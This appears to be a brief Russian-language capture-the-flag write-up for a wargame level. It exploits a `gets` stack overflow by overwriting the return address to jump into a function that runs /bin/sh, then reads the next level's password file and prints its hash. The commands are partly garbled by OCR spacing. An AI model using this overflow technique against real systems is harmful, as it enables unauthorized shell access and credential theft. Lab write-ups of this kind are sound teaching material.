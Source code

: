 # Функция C `gets`

# Готовим payload для эксплойта
```
1. $> python -c 'print "a" * 76 + "\ x44 \ x84 \ x04 \ x08"'> / tmp / payload
```
\ x44 \ x84 \ x04 \ x08 соответствуют младшему порядку байтов адреса 08048444

#     Адрес соответствует началу функции `run`
#     В функции `run` мы видим `system (" / bin / sh ")`
```
2. $> cat / tmp / payload - | ./level1
3. > cat /home/user/level2/.pass
```
>53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77

# ╮(￣_￣)╭
